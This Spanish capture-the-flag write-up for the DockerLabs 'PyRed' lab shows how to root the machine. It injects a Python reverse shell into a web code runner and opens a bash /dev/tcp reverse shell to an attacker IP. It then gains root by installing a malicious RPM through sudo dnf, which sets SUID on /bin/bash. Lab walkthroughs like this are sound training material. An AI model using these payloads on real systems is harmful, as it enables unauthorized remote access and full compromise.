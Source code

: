 # Máquina PyRed

Dificultad -> Medium

Enlace a la máquina -> [Dockerlabs](https://dockerlabs.es/)

***

## Reconocimiento

Comenzamos realizando un escaneo general con **nmap** sobre la IP de la máquina víctima para ver que puertos tiene abiertos.

```shell
nmap -p- --open -sT --min-rate 5000 -vvv -n -Pn 172.17.0.2 -oG allPorts
________________________________________________
PORT     STATE SERVICE REASON
5000/tcp open  upnp    syn-ack
```

Lo abrimos en el navegador:

![Pasted image 20240415012043](https://github.com/albertomarcostic/DockerLabs-WriteUps/assets/131155486/6e9add48-cee5-45ab-8adf-cea807dbd0f1)

Parece un compilador web donde podemos ejecutar comandos de python. Si por ejemplo ejecutamos:

```python
var = 7 + 7
print(var)
------------------
OUTPUT:
14
```

***

## Explotación

Vemos que interpreta python correctamente. Por lo que trataremos de enviarnos una **Reverse shell**:

Nos pondremos en escucha con **netcat**:

```shell
nc -nlvp 3333
```

Introduciremos en la web:

```python
import socket
import subprocess
import os

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect(("192.168.1.37", 3333))
os.dup2(s.fileno(), 0)
os.dup2(s.fileno(), 1)
os.dup2(s.fileno(), 2)
p = subprocess.call(["/bin/sh", "-i"])
```

Siendo la 192.168.1.37 la IP de mi máquina atacante.

Podemos utilizar cualquier **Reverse Shell** con python que queramos. (Las hay más sencillas)

***

### Tratamiento de la tty

Si tenemos problemas al aplicar el tratamiento de la **tty**, lo que podemos hacer es ponernos en escucha desde una consola nueva por un puerto. Por ejemplo con **netcat**

```shell
nc -nlvp 443
```

Y nos enviamos desde la máquina víctima una reverse shell para acceder:

```shell
bash -c "bash -i >&/dev/tcp/192.168.1.37/443 0>&1" 
```

(Siendo la 192.168.1.37 mi IP de la máquina atacante)

***

Realizaremos un breve **tratamiento de la tty** para poder operar de forma cómoda sobre la consola. Los comandos a ejecutar:

```shell
script /dev/null -c bash 
```

(hacemos **ctrl + Z**)

```shell
stty raw -echo; fg
reset xterm
stty rows 62 columns 248
export TERM=xterm
export SHELL=bash
```

Pondremos en rows y columns las columnas y filas que correspondan a la pantalla de nuestra máquina. Una vez hecho esto podemos maniobrar con comodidad, pudiendo hacer Ctrl+L para limpiar la pantalla así como Ctrl+C.

***

## Escalada de privilegios

Hacemos un "**sudo -l**" para ver si podemos ejecutar algo como root.

```shell
sudo -l
----------------------
User primpi may run the following commands on af8905045dea:
    (ALL) NOPASSWD: /usr/bin/dnf
```

Vemos que podemos ejecutar **/usr/bin/dnf**. Herramienta esencial para la administración de paquetes en sistemas Linux basados en Fedora. Si no sabemos como abusar de esta utilidad, siempre podemos recurrir a [GTFOBins](https://gtfobins.github.io/)

En nuestra máquina atacante crearemos un archivo **.rmp** malicioso. Con el comando que nos interese ejecutar como root.

```shell
TF=$(mktemp -d)
echo 'chmod u+s /bin/bash' > $TF/x.sh
fpm -n x -s dir -t rpm -a all --before-install $TF/x.sh $TF
```

Lo transferiremos a la máquina víctima, por ejemplo con un servidor con python en la máquina atacante:

```shell
sudo python3 -m http.server 80
```

Y lo descargamos en la máquina víctima:

```shell
wget http://192.168.1.37/x-1.0-1.noarch.rpm
```

Instalamos el paquete malicioso que hemos creado con **dnf**:

```shell
sudo /usr/bin/dnf install -y x-1.0-1.noarch.rpm
```

Al instalarlo, hemos cambiado la bash a **SUID**. Como podemos ejecutarla como root:

```shell
bash -p
whoami
-----------------
root
```

Hemos conseguido el nivel de privilegios máximos en la máquina !
